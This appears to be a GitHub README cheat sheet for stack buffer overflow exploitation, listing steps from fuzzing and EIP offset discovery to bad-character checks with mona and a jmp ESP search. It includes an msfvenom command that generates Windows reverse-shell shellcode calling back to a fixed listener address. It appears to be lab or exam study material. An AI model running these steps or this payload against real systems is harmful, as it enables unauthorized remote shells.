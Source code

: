 #  Buffer Overflow Cheat Sheet

1. Connecting to vulnerable app
```nc <ip> <port> ```
2. Fuzzing
([fuzzer.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/fuzzer.py))

3. Finding EIP
([finding_eip.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/finding-eip.py))
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
``` 


4. Determining bad chars
([bad_chars.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/bad_chars.py))
```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
!mona compare -f C:\mona\vulnapp\bytearray.bin -a <ESP_badchar_address>
``` 
5. Finding jmp ESP
```
!mona jmp -r esp -cpb  "\x00\xyz\xxx"
```

6. Generating Shellcode 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.238.148 LPORT=443 EXITFUNC=thread -b "\x00\x00" -f py -v shellcode

```
7. Exploiting
([exploit.py](https://github.com/EdElbakyan/BOF-Cheat-Sheet/blob/main/BOF/exploit.py.py))
